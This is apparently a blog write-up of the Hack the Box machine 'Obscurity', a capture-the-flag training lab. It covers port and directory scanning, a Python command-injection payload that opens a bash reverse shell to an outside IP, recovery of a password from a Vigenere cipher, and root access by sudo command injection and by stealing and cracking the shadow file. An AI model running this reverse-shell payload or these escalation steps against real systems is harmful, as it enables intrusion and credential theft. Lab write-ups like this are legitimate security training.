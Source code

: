 +++
author = "Nick"
categories = ["hack the box", "burpsuite", "command injection", "reverse shell", "python", "custom exploitation", "medium", "wfuzz", "john"]
date = 2020-05-09T14:00:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/12/info.png"
slug = "hack-the-box-obscurity"
summary = "Welcome back everyone! Today we'll be doing the machine Obscurity on Hack the Box. It's listed as a medium Linux machine, let's jump in!"
tags = ["hack the box", "burpsuite", "command injection", "reverse shell", "python", "custom exploitation", "medium", "wfuzz", "john"]
title = "Hack the Box - Obscurity"

+++


Welcome back everyone! Today we'll be doing the machine Obscurity on Hack the Box. It's listed as a medium Linux machine, let's jump in!

As usual we start with ```nmap```: ```nmap -sC -sV -T4 -p- -oA initial_scan 10.10.10.168```.

Here are our results:
```
Nmap scan report for 10.10.10.168
Host is up (0.055s latency).
Not shown: 65531 filtered ports
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:d3:9a:0d:97:2c:54:20:e1:b0:17:34:f4:ca:70:1b (RSA)
|   256 f6:8b:d5:73:97:be:52:cb:12:ea:8b:02:7c:34:a3:d7 (ECDSA)
|_  256 e8:df:55:78:76:85:4b:7b:dc:70:6a:fc:40:cc:ac:9b (ED25519)
80/tcp   closed http
8080/tcp open   http-proxy BadHTTPServer
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Mon, 23 Dec 2019 14:38:24
|     Server: BadHTTPServer
|     Last-Modified: Mon, 23 Dec 2019 14:38:24
|     Content-Length: 4171
|     Content-Type: text/html
|     Connection: Closed
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>0bscura</title>
|     <meta http-equiv="X-UA-Compatible" content="IE=Edge">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta name="keywords" content="">
|     <meta name="description" content="">
|     <!-- 
|     Easy Profile Template
|     http://www.templatemo.com/tm-467-easy-profile
|     <!-- stylesheet css -->
|     <link rel="stylesheet" href="css/bootstrap.min.css">
|     <link rel="stylesheet" href="css/font-awesome.min.css">
|     <link rel="stylesheet" href="css/templatemo-blue.css">
|     </head>
|     <body data-spy="scroll" data-target=".navbar-collapse">
|     <!-- preloader section -->
|     <!--
|     <div class="preloader">
|_    <div class="sk-spinner sk-spinner-wordpress">
|_http-server-header: BadHTTPServer
|_http-title: 0bscura
9000/tcp closed cslistener
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.80%I=7%D=12/23%Time=5E00D11F%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,10FC,"HTTP/1\.1\x20200\x20OK\nDate:\x20Mon,\x2023\x20Dec\x202
SF:019\x2014:38:24\nServer:\x20BadHTTPServer\nLast-Modified:\x20Mon,\x2023
SF:\x20Dec\x202019\x2014:38:24\nContent-Length:\x204171\nContent-Type:\x20
SF:text/html\nConnection:\x20Closed\n\n<!DOCTYPE\x20html>\n<html\x20lang=\
SF:"en\">\n<head>\n\t<meta\x20charset=\"utf-8\">\n\t<title>0bscura</title>
SF:\n\t<meta\x20http-equiv=\"X-UA-Compatible\"\x20content=\"IE=Edge\">\n\t
SF:<meta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-
SF:scale=1\">\n\t<meta\x20name=\"keywords\"\x20content=\"\">\n\t<meta\x20n
SF:ame=\"description\"\x20content=\"\">\n<!--\x20\nEasy\x20Profile\x20Temp
SF:late\nhttp://www\.templatemo\.com/tm-467-easy-profile\n-->\n\t<!--\x20s
SF:tylesheet\x20css\x20-->\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/bo
SF:otstrap\.min\.css\">\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/font-
SF:awesome\.min\.css\">\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/templ
SF:atemo-blue\.css\">\n</head>\n<body\x20data-spy=\"scroll\"\x20data-targe
SF:t=\"\.navbar-collapse\">\n\n<!--\x20preloader\x20section\x20-->\n<!--\n
SF:<div\x20class=\"preloader\">\n\t<div\x20class=\"sk-spinner\x20sk-spinne
SF:r-wordpress\">\n")%r(HTTPOptions,10FC,"HTTP/1\.1\x20200\x20OK\nDate:\x2
SF:0Mon,\x2023\x20Dec\x202019\x2014:38:24\nServer:\x20BadHTTPServer\nLast-
SF:Modified:\x20Mon,\x2023\x20Dec\x202019\x2014:38:24\nContent-Length:\x20
SF:4171\nContent-Type:\x20text/html\nConnection:\x20Closed\n\n<!DOCTYPE\x2
SF:0html>\n<html\x20lang=\"en\">\n<head>\n\t<meta\x20charset=\"utf-8\">\n\
SF:t<title>0bscura</title>\n\t<meta\x20http-equiv=\"X-UA-Compatible\"\x20c
SF:ontent=\"IE=Edge\">\n\t<meta\x20name=\"viewport\"\x20content=\"width=de
SF:vice-width,\x20initial-scale=1\">\n\t<meta\x20name=\"keywords\"\x20cont
SF:ent=\"\">\n\t<meta\x20name=\"description\"\x20content=\"\">\n<!--\x20\n
SF:Easy\x20Profile\x20Template\nhttp://www\.templatemo\.com/tm-467-easy-pr
SF:ofile\n-->\n\t<!--\x20stylesheet\x20css\x20-->\n\t<link\x20rel=\"styles
SF:heet\"\x20href=\"css/bootstrap\.min\.css\">\n\t<link\x20rel=\"styleshee
SF:t\"\x20href=\"css/font-awesome\.min\.css\">\n\t<link\x20rel=\"styleshee
SF:t\"\x20href=\"css/templatemo-blue\.css\">\n</head>\n<body\x20data-spy=\
SF:"scroll\"\x20data-target=\"\.navbar-collapse\">\n\n<!--\x20preloader\x2
SF:0section\x20-->\n<!--\n<div\x20class=\"preloader\">\n\t<div\x20class=\"
SF:sk-spinner\x20sk-spinner-wordpress\">\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Our results seem to show a web server with a production and dev enviornment. Looks like we're running ```Wordpress``` on the 9000 port as well. Let's visit the site and see what's here. We know port 80 is closed but 8080 is running and we are greeted a basic page. From browsing the page we get a hostname, obscure.htb, so we'll add that to our host file. We also know there are some more settings listed in a secret development directory somewhere. So we'll load up ```gobuster``` and see what we get back.

Command:
```gobuster dir -u http://obscure.htb:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 75```

When we run this we get a flood of errors back. This is to do ```gobuster``` using ```Head``` requests vs ```get```. Well, we know that we are looking for ```SuperSecureServer.py```. We can just fuzz the directory(ies) we are looking for using ```ffuf``` or ```wfuzz```.

Command:
```wfuzz -c -w /usr/share/wordlists/dirb/small.txt --hc 404 'http://obscure.htb:8080/FUZZ/SuperSecureServer.py'```

I ran a few larger wordlists against the target but all of them failing after ~2,200 requests. So we pick an even smaller listing.

{{< figure src="__GHOST_URL__/content/images/2019/12/obscurity_fuzz.gif" >}}

We find our target is stored under ```develop```. Lets get the file.

Command: 
```wget 'http://obscure.htb:8080/develop/SuperSecureServer.py'```

Once we have it downloaded, we look at what's inside.

{{< figure src="__GHOST_URL__/content/images/2019/12/image-40.png" >}}

We found our foothold. If we are able to pass our command and escape the first part, we should be able to execute some python code we inject. We need to make sure we format our request correctly. We want to close the first part of the ommand with ```';``` then execute our code and close the command. I used a simple bash reverse shell:

```
;os.system('bash%20-c%20"bash%20-i%20>&%20/dev/tcp/10.10.15.129/4444%200>&1"');'
```

We apply this to our URL and wait for our connector...

{{< figure src="__GHOST_URL__/content/images/2019/12/obscurity_www_shell.gif" >}}

We now have a shell as ```www-data```. Now that we have a shell we can start enumerating internally. We see a few files in ```Robert```'s home directory. ```SuperSecureCrypt.py``` and ```passwordreminder.txt```. We download the python script and look at it locally. It looks to contain an [```Vigenere cipher```](https://en.wikipedia.org/wiki/Vigen%C3%A8re_cipher) method. If you are familiar with this cipher you know that we can obtain the password for the file if you know the original input.

{{< figure src="__GHOST_URL__/content/images/2019/12/obscurity_key.gif" >}}

It looks like our password was ```alexandrovich```. We can now take this password and decrypt our ```passwordreminder.txt```. Repeating the process but supplying a ```-k``` of ```alexanderovich``` gives us a password of ```SecThruObsFTW```. Which assumably is Robert's password. We try to SSH as him and it works.

{{< figure src="__GHOST_URL__/content/images/2019/12/obscurity_robert_ssh-1.gif" >}}

Now that we've gotten our ```user.txt```. Lets start enumerating as Robert. We see that Robert is able to launch ```BetterSSH.py``` as sudo.

{{< figure src="__GHOST_URL__/content/images/2019/12/image-41.png" >}}

When we look through ```BetterSSH.py``` we see there are a few avenue's of attack. The first being this ```command injection```.

{{< figure src="__GHOST_URL__/content/images/2019/12/image-42.png" >}}

The application calls the command you input with the ```-u``` flag. So if we simply apply another ```-u``` to our input, we can do things as ```root```!

{{< figure src="__GHOST_URL__/content/images/2019/12/obscurity_root_1.gif" >}}

The other method is that we see that copies the system shadow file out to a temporary directory every .1 seconds. If we can monitor this file location, we can snag the file before it's deleted. So we'll make a file on ```/tmp``` called snag. Then we'll run the ```watch``` command every .1 seconds. We then run the ```BetterSSH.py``` script and snag the file before it's created.

Command:
```watch -n .1 cp /tmp/SSH/* /tmp/snag```

{{< figure src="__GHOST_URL__/content/images/2019/12/obscurit_root_2.gif" >}}

We can then get the contents of the file we copied. Inside it we have the root hash.

{{< figure src="__GHOST_URL__/content/images/2019/12/image-43.png" >}}

We can just run it through ```John``` and see if we get a password.

{{< figure src="__GHOST_URL__/content/images/2019/12/obscurity_root_hash-1.gif" >}}

Sure enough, we get one: ```mercedes```. We can now just ```su``` to root.

{{< figure src="__GHOST_URL__/content/images/2019/12/obscurity_root_su.gif" >}}

There we have it. Another box down!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

